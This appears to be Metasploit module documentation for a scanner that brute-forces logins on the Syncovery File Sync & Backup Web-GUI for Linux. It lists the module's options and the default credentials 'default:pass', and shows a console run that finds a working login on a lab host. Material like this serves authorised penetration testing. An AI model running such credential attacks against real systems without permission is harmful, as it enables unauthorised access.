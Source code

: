 ## Vulnerable Application
[Syncovery For Linux with Web-GUI](https://www.syncovery.com/download/linux/)

This module attempts to brute-force valid login credentials for the Syncovery File Sync & Backup Software Web-GUI for Linux.
The default credentials are checked by default.

### Authors

- Jan Rude (mgm security partners GmbH)

### Platforms

- Unix

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use modules/auxiliary/scanner/http/syncovery_linux_login`
4. Do: `set RHOSTS <TARGET HOSTS>`
5. Do: `run`
6. On success you should get valid credentials.

## Options

### USERNAME
Username used for login. Default is "default".

### PASSWORD
Password used for login. Default is "pass".

### TARGETURI
The path to Syncovery login.

### PORT
The (TCP) target port on which Syncovery is running. By default port 8999 is used for HTTP and port 8943 is used for HTTPS.

## Scenarios

### Syncovery for Linux with default credentials

```
msf > use modules/auxiliary/scanner/http/syncovery_linux_login
msf auxiliary(scanner/http/syncovery_linux_login) > set rhosts 192.168.178.26
rhosts => 192.168.178.26
msf auxiliary(scanner/http/syncovery_linux_login) > options

Module options (auxiliary/scanner/http/syncovery_linux_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD          pass             no        The password to Syncovery (default: pass)
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            192.168.178.26   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             8999             yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   true             yes       Stop guessing when a credential works for a host
   TARGETURI         /                no        The path to Syncovery
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME          default          yes       The username to Syncovery (default: default)
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts
   VHOST                              no        HTTP server virtual host

msf auxiliary(scanner/http/syncovery_linux_login) > run

[+] 192.168.178.26:8999 - Syncovery File Sync & Backup Software confirmed
[+] 192.168.178.26:8999 - Identified version: 9.48a
[+] 192.168.178.26:8999 - Success: 'default:pass'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
